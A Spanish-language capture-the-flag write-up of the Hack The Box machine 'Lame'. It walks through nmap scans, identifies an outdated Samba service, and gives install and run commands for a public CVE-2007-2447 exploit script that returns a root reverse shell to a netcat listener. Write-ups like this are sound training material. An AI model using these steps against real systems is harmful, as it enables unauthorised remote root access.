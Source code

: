 #  LAME MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/1.PNG)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```
nmap -p- --open -T5 - v -n 10.10.10.3 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```
nmap -p21,22,139,445,3632 -sV -sC 10.10.10.3 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/3.PNG)

## EXPLOTACION

Vemos que tiene el samba activado y la version es 3.0.X que es desactualizado, sibuscamos esa version en google junto a la palabra exploit encontramos el siguiente repositorio de github:

[https://github.com/amriunix/CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/4.PNG)

estos son los pasos de instalacion:

```bash
sudo apt install python python-pip #si no tienes pip2
pip install --user pysmb
git clone https://github.com/amriunix/CVE-2007-2447.git
```

la forma de ejecucion:

```bash
python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/5.PNG)

nos ponemos a la escucha en netcat y obtenemos una conexion reversa como root:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/6.PNG)

## ELEVACION DE PRIVILEGIOS

No necesitamos elevar privilegios porque somos root y podemos ver las 2 flags:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LAME/images/7.PNG)